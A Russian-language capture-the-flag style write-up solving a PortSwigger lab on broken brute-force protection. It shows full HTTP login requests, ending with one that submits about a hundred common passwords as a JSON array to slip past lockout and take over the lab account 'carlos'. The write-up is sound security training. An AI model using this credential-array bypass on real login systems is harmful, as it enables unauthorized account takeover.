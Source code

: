 ```yaml
---
title: "Broken brute-force protection, multiple credentials per request"
date: 2025-10-09
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request"
classes: wide
---
```


Эта лаба уязвима к атаке брутфорсом из-за ошибки в логике защиты. Для решения нужно войти в учетку пользователя `carlos`.

```
https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/
```

## Solution

Ну-с. Нужно получить доступ к учетке. Пойду логиниться)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/1.png){: height="200" .align-center}

Сам запрос:

```http
POST /login HTTP/2
Host: 0aaa00650426d98780d930d4009900ea.web-security-academy.net
Cookie: session=FOehRTUJ8LvfSBoeA4PDBTMQTNcOQN22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"wiener","password":"peter"}
```

Магия... `winere`:`peter` - постоянные креды для большей части лаб. Попробуем брутфорсить этот пароль. Так-с. После 4 запросов меня заблочили. При этом не работает даже ввод корректных кред.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/2.png){: height="200" .align-center}

Попробовал следующую логику: отправил 2 неправильных пароля, затем успешно вошел в аккаунт, снова отправил неверные креды. Все равно словил блок. Значит такой способ не подойдет. Добавлю `X-Forwarded_for: web-security-academy.net`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/3.png){: height="200" .align-center}

Все еще не то. Попытка отправить пачку запросов в надежде на `Race Condition` тоже не вышло. Попробую добавить лишние поля в тело запроса:

```http
POST /login HTTP/2
Host: 0aaa00650426d98780d930d4009900ea.web-security-academy.net
Cookie: session=FOehRTUJ8LvfSBoeA4PDBTMQTNcOQN22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/login
Content-Type: application/json
Content-Length: 93
Origin: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"wiener",
	"password": [
		"peter1",
		"aaaa",
		"aoeuaoeu",
		"aoeuaoeu",
		"peter"
	]
}
```

О как:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=ngHxgYJlpNsbYdLoJ3deLDif99yoZcHw; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Возьму пароли из [этого](https://portswigger.net/web-security/authentication/auth-lab-passwords) списка. 

Составлю запрос:

```http
POST /login HTTP/2
Host: 0aaa00650426d98780d930d4009900ea.web-security-academy.net
Cookie: session=FOehRTUJ8LvfSBoeA4PDBTMQTNcOQN22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net/login
Content-Type: application/json
Content-Length: 1189
Origin: https://0aaa00650426d98780d930d4009900ea.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"carlos",
"password": ["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
"654321",
"superman",
"1qaz2wsx",
"7777777",
"121212",
"000000",
"qazwsx",
"123qwe",
"killer",
"trustno1",
"jordan",
"jennifer",
"zxcvbnm",
"asdfgh",
"hunter",
"buster",
"soccer",
"harley",
"batman",
"andrew",
"tigger",
"sunshine",
"iloveyou",
"2000",
"charlie",
"robert",
"thomas",
"hockey",
"ranger",
"daniel",
"starwars",
"klaster",
"112233",
"george",
"computer",
"michelle",
"jessica",
"pepper",
"1111",
"zxcvbn",
"555555",
"11111111",
"131313",
"freedom",
"777777",
"pass",
"maggie",
"159753",
"aaaaaa",
"ginger",
"princess",
"joshua",
"cheese",
"amanda",
"summer",
"love",
"ashley",
"nicole",
"chelsea",
"biteme",
"matthew",
"access",
"yankees",
"987654321",
"dallas",
"austin",
"thunder",
"taylor",
"matrix",
"mobilemail",
"mom",
"monitor",
"monitoring",
"montana",
"moon",
"moscow"
]}
```

Красотища. Погнали))

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=7IeODKq0yeW0kNcOOeBJESNd1qtSieeN; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Открою в браузере с помощью кнопки `Show response in browser`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/4.png){: height="200" .align-center}

Done)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Broken_brute-force_protection_multiple_credentials_per_request/5.png){: height="200" .align-center}